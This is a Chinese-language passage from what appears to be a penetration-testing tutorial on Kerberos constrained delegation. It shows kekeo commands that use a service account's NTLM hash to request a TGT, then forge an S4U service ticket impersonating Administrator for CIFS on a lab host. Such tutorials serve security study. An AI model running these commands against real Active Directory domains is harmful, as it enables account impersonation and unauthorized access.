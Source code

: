 ### 其他情况

kekeo同样也支持使用NTLM Hash，在请求服务用户的TGT那步直接把```/password```改成```/NTLM```即可。

适用于拿到服务用户tony的NTLM hash。

<font color='red'>**windows 10 和 windows server 2012 及以上版本mimikatz 无法dump明文密码。**</font>

假设我们已经通过其他方式拿到tony用户的NTLM hash为 ```a87f3a337d73085c45f9416be5787d86```,

使用kekeo:

	tgt::ask /user:tony /domain:lmrsec.com /NTLM:a87f3a337d73085c45f9416be5787d86

	tgs::s4u /tgt:TGT_tony@LMRSEC.COM_krbtgt~lmrsec.com@LMRSEC.COM.kirbi /user:Administrator@lmrsec.com /service:cifs/AA-PC.lmrsec.com

![](images/34.jpg)

![](images/35.jpg)
